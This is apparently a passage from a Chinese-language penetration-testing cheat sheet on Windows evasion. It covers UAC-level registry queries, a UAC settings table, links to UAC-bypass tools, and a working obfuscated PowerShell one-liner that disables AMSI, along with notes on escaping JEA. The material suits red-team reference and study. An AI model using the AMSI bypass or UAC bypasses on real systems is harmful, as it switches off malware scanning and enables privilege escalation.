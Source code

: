 * 检查UAC级别

  ```
  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v FilterAdministratorToken
  ```

| EnableLUA | LocalAccountTokenFilterPolicy | FilterAdministratorToken | 描述            |
| --------- | ----------------------------- | ------------------------ | --------------- |
| 0         | /                             | /                        | 无UAC           |
| 1         | 1                             | /                        | 无UAC           |
| 1         | 0                             | 0                        | RID 500无UAC    |
| 1         | 0                             | 1                        | 为每个人启用UAC |

* UAC绕过
  * [微软签名的自动提升二进制文件](https://www.elastic.co/guide/en/security/current/bypass-uac-via-sdclt.html) - `msconfig`、`sdclt.exe`、`eventvwr.exe`等
  * [hfiref0x/UACME](https://github.com/hfiref0x/UACME) - 击败Windows用户账户控制

## DPAPI

参考 [PayloadsAllTheThings/Windows - DPAPI.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20DPAPI.md)

## PowerShell

### 反恶意软件扫描接口

> 反恶意软件扫描接口（AMSI）是一个Windows API（应用程序编程接口），为应用程序和服务提供了一个统一的接口，以便与系统上安装的任何反恶意软件产品集成。该API允许反恶意软件解决方案在运行时扫描文件和脚本，并为应用程序提供了请求扫描特定内容的方法。

查找更多AMSI绕过方法：[Windows - AMSI Bypass.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)

```powershell
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### 足够的管理

> 足够的管理（JEA）是 Microsoft Windows Server 中的一项功能，允许管理员将特定的管理任务委托给非管理员用户。JEA 提供了一种安全且可控的方式来授予系统有限的、刚刚足够的访问权限，同时确保用户不能执行意外的操作或访问敏感信息。

JEA 的使用：

* 列出可用的 cmdlet：`command`

* 寻找非默认的 cmdlet：

  ```ps1
  Set-PSSessionConfiguration
  Start-Process
  New-Service
  Add-Computer
  ```
